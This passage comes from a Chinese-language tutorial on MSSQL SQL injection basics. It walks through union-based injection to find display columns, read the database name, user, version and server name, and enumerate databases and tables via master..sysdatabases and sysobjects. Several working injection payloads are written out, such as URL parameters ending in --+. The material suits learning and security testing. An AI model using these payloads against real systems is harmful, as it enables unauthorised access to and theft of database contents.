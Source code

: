 

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_22_JZNRVAnF.png)

在这里，我们可以看到，`column2`，`column3` 的类型是`varchar`，但是给的类型为int，所以在字符在转换为int类型的时候，会报错，在这里，如果无法判断，则使用null来代替显位，或者使用逐一判断字符类型

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_22_A2ZUMoiW.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_22_YbtZjvsn.png)



#### 查询数据
通过第3步，找到显位之后，在显示字段位置使用子查询或直接查询，来查询数据；
首先通过`db_name()`查询当前数据库，数据库当前用户`user`，数据库版本`@@version`，服务器主机`@@SERVERNAME`

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_ruWybPML.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_8Adrzayq.png)

**查询数据库**
使用`db_name()`函数，传入数字类型就可以遍历所有的数据库

```sql
?id=-1' union select 1,db_name(1),3--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_MOhEjdJt.png)

或者查询`master..sysdatabases`来获取表名

```sql
?id=-1' union select '1',name,'3' from master..sysdatabases--+
```
当只能获取一个字段的时候，如下所示

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_CvxcjaHm.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_23_7uDqyv8p.png)

由于mssql2000 没有concat函数（mssql 2012支持)，所以我们尝试使用如下payload，以此类推

```sql
?id=-1' union select '1',name,'3' from master..sysdatabases where name != 'master' --+
?id=-1' union select '1',name,'3' from master..sysdatabases where name not in ('master','model','msdb') --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_24_YC5eBMHm.png)

![image.png](MSSQL 注入基础.assets/2023_05_19_10_41_24_RIj5QAUq-1044587.png)

或者

```sql
select catalog_name from information_schema.schemata;
```
**查表**
在获取了当前的数据库，此时需要获取当前数据库的表，使用`current_database`..sysobjects(此时current_database为test，所以为test..systobjects)，条件为U（用户表）
```sql
// 查当前库的第一个表
?id=-1' union select top 1 '1',name,3 from  test..sysobjects where xtype='U'--+
// 查当前库的第一个表
select top 1 name from sysobjects where xtype='u'
// 查当前数据库的第一个表
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select top 1 table_name from information_schema.tables
// 查询master库第一个表名，以此类推
```